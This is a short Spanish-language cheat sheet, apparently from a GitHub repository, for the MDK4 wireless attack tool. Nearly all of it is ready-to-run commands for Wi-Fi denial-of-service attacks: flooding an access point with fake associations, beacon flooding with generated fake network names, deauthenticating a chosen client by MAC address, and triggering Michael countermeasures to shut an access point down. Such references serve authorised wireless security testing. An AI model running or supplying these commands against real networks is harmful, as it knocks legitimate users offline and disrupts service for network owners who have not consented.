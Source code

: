 # MDK4 Cheat Sheet

#### Ataque: *'Authentication Denial-Of-Service'* 
- Generar varias direcciones MAC para asociarlas a la AP y volver lenta la red para que el AP expulse a todos los clientes.
```
mdk4 <Interface> a -a <BSSID-AP>
```

#### Ataque: *'Beacon Flooding'* 
- Generar puntos de acceso aleatorios y diferentes nombres en el canal del AP.
```
mdk4 <Interface> b -c <Channel-AP>
```
- Generar Montones de puntos de accesos en el mismo canal que el punto de acceso objetivo. Con esto logramos que quede fuera de la onda de espectro y que no lo pueda visualizar el usuario el AP objetivo.
```
for i in $(seq 1 10); do echo "WifiFree$i" >> File.txt; done

mdk4 <Interface> b -f File.txt -a -s 1000 -c <Channel-AP>
```

#### Ataque: *'Deauthentication and Disassociation'* 
- Desautenticar a un cliente y usando la dirección MAC del cliente victima.
```
echo "1F:2B:31:AC:A2:64" > blacklist.txt

mdk4 <Interface> d -w blacklist.txt -c <Channel-AP>
```

#### Ataque: *'Michael Countermeasures Exploitation'* 
- Se puede llegar a apagar el AP con este ataque.
```
mdk4 <Interface> m -t <BSSID-AP>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)